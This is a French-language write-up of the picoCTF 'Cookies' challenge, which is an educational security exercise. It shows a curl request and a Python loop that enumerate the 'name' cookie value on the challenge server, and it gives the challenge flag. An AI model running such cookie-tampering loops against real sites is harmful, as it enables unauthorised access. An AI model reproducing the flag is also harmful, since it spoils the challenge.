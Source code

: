 # Cookies

## 0x1 Description

>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/

## 0x2 Analyse

Encore une fois, la description est très explicite, nous allons devoir jouer avec les cookies et il y en aura surement un meilleur que les autres

Après avoir entré le nom du premier biscuit qu'ils nous propose, nous avons la structure du cookie qui nous est donnée:

![Cookie's structure](./IMG/cookie.png)

Pas besoin d'être un génie pour comprendre qu'il va falloir incrémenter la valeur contenue dans **name**

## 0x3 Résolution avec cURL

Le principe est de faire une petite boucle qui va incrémenter la valeur et appeler la vérification avec cette donnée.

Ce qui donne après quelques itérations le résultat suivant:

>curl --cookie "name=18" http://mercury.picoctf.net:17781/check
>
>flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## 0x4 Vérification avec Cookie Quick Manager

Avec n'importe quel éditeur de cookie, vous pouvez le modifier et une fois la page rechargée voir apparaitre la solution:

![flag](./IMG/flag.png)

## 0x5 Résolution avec un script en python

Comme expliqué , nous allons faire une boucle qui testera toutes les possibilité de cookie, pour ce faire, voici le code que j'ai écrit:

```python
#!/usr/bin/env python

import pwn
import requests
import re

regex = "picoCTF{.*?}"
url = "http://mercury.picoctf.net:17781/check"
s = requests.Session()
boucle = True

def Exploit():
    while boucle:
        for miaou in range (0,100):
            pwn.info("Connecting to {}".format(url))
            pwn.info("Testing with cookie name={}".format(str(miaou)))
            cookies = {'name': str(miaou)}
            req = s.get(url, cookies=cookies)
            req = req.content
            result = re.findall(regex, str(req))
            flag = result
            if result:
                for f in flag:
                    pwn.success("Flag is: {}".format(f))
                    break
                return
Exploit()

```
